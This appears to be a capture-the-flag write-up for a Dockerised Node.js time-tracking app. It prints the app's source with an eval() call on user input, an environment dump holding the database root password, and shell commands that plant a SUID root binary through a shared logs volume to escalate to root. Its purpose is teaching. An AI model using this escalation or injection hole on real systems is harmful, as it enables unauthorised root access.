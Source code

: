 The node.js application is running within docker in a container, so when we have gained access to it in [[PORT 8080]], we have root whithin this container.

### APP.JS

```js
const mysql = require('mysql');
const express = require('express');
const session = require('express-session');
const path = require('path');
const crypto = require('crypto')
const cookieParser = require('cookie-parser');
const fs = require('fs');

const connection = mysql.createConnection({
	host     : process.env.DB_HOST,
	user     : process.env.DB_USER,
	password : process.env.DB_PASS,
	database : process.env.DB_DATABASE
});

const app = express();
app.set('view engine' , 'ejs')
app.set('views', './views')
app.use(express.static(__dirname + '/public'));
app.use(express.json());
app.use(express.urlencoded({ extended: true }));

app.use(cookieParser());
app.use(session({secret: "Your secret key", cookie : {secure : false}}));


// This is of interest to me there is a secret cookie with sercure false


var logfile = fs.createWriteStream(process.env.LOG_FILE, {flags: 'a'});

var log = (message, level) => {
	format_message = `[${level.toUpperCase()}] ${message}`;
	logfile.write(format_message + "\n")
	if (level == "warn") console.warn(message)
	else if (level == "error") console.error(message)
	else if (level == "info") console.info(message)
	else console.log(message)
}

// http://localhost:8080/
app.get('/', function(request, response) {
	
	if (request.session.username) {
		
		connection.query('SELECT user,time FROM users', function(error, results) {
			var users = []
			if (error) {
				log(error, "error")
			};

			for (let row in results){

				let min = results[row].time % 60;
				let padded_min = `${min}`.length == 1 ? `0${min}` : `${min}`
				let time = `${(results[row].time - min) / 60}:${padded_min} h`;
				users.push({name : results[row].user, time : time});
			}							
			response.render('home', {users : users});
		});	
		
	} else{
		response.render('login');
	}
		
});



// http://localhost:8080/time
app.post('/time', function(request, response) {
	
    if (request.session.loggedin && request.session.username) {

        let timeCalc = parseInt(eval(request.body.time));
		let time = isNaN(timeCalc) ? 0 : timeCalc;
        let username = request.session.username;

		connection.query("UPDATE users SET time = time + ? WHERE user = ?", [time, username], function(error, results, fields) {
			if (error) {
				log(error, "error")
			};

			log(`${username} added ${time} minutes.`, "info")
			response.redirect('/');
		});
	} else {
        response.redirect('/');;	
    }
	
});

// http://localhost:8080/auth
app.post('/auth', function(request, response) {
	
	let username = request.body.username;
	let password = request.body.password;	
	
	if (username && password) {
		
		let hash = crypto.createHash('md5').update(password).digest("hex");
		
		connection.query('SELECT * FROM users WHERE user = ? AND pass = ?', [username, hash], function(error, results, fields) {
			
			if (error) {
				log(error, "error")
			};
			
			if (results.length > 0) {
				
				request.session.loggedin = true;
				request.session.username = username;		
				log(`User ${username} logged in`, "info");	
				response.redirect('/');	
			} else {
				log(`User ${username} tried to log in with pass ${password}`, "warn")
				response.redirect('/');	
			} 					
		});		
	} else {
		response.redirect('/');	
	} 	

});

app.listen(8080, () => {
	console.log("App listening on port 8080")
});


```

### ENVIRONMENT

```bash
$env

NODE_VERSION=19.3.0 # nothing found on this
HOSTNAME=de0610f51845 # id of the container
YARN_VERSION=1.22.19 # idk something about js
HOME=/root
DB_DATABASE=timetracking
TERM=xterm
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5
LOG_FILE=/logs/tt.log # this is supposedly interesting
PWD=/usr/src/app
DB_HOST=db
DB_USER=root
```

### COMPOSE 

```bash 
$ cat docker-compose.yml 
version: '3.3'
services:
  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: 'timetracking'
      MYSQL_ROOT_PASSWORD: 'Ng1-f3!Pe7-e5?Nf3xe5'
    ports:
      - '3306:3306'
    volumes:
      - ./db:/docker-entrypoint-initdb.d
  app:
    image: umbrella/timetracking:latest
    restart: always
    ports:
      - '8080:8080'
    volumes:
      - ./logs:/logs
```


$ ldd --version 
ldd (Ubuntu GLIBC 2.31-0ubuntu9.9) 2.31
Copyright (C) 2020 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper

claire-r@ctf:~/timeTracker-src/logs$ cp /usr/bin/aa-exec ./

chown root aa-exec
chgrp root aa-exec
chmod +s aa-exec

claire-r@ctf:~/timeTracker-src/logs$ ./aa-exec /bin/sh -p
\# cd /root
\# id
uid=1001(claire-r) gid=1001(claire-r) euid=0(root) egid=0(root) groups=0(root),1001(claire-r)
